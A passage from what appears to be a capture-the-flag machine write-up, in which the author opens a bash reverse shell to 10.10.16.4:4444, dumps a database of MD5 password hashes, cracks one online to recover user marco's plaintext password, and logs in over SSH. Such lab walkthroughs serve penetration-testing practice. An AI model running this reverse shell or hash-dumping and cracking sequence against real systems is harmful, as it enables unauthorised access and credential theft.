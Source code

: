 Here we have identified 3 users `root`, `marco` & `app`

Then i executed a revershell command from pentestmonkey modified it a bit and established an `nc` listener at my end 

``` sh
bash -c ‘sh -i >& /dev/tcp/10.10.16.4/4444 0>&1’
```
<p style="text-align: center"><img src="img/11.png"></p>

After getting the shell my first thought was to extract the content of the db to get information about other users, so i did, and got the hashed credential of the users.
<p style="text-align: center"><img src="img/12.png"></p>

``` text
1|marco|649c9d65a206a75f5abe509fe128bce5
2|app|a97588c0e2fa3a024876339e27aeb42e
3|thegenetic|098f6bcd4621d373cade4e832627b4f6
```

then i used crackstation to crack the hashes and retrieve the passwords(retreived only the password of `marco` :)

``` text
marco -> sweetangelbabylove
```

Now I can try to access the ssh login with the user marco...

And i got access